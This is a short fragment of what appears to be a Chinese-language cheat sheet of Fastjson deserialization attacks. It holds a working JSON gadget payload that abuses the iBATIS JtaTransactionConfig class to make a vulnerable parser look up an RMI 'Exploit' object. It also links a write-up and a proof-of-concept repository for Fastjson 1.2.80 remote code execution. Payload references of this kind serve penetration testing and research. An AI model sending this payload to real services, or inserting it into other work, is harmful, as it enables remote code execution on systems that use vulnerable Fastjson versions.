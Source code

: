 
## JtaTransactionConfig

```json
{\"@type\":\"com.ibatis.sqlmap.engine.transaction.jta.JtaTransactionConfig\",\"properties\":{\"UserTransaction\":\"rmi://localhost:1099/Exploit\"}}
```

---

## fastjson <= 1.2.80

**相关文章**
- [Fastjson1.2.80漏洞复现](https://hosch3n.github.io/2022/09/01/Fastjson1-2-80%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0/)

**POC | Payload | exp**
- [Lonely-night/fastjsonVul](https://github.com/Lonely-night/fastjsonVul) - fastjson 80 远程代码执行漏洞复现
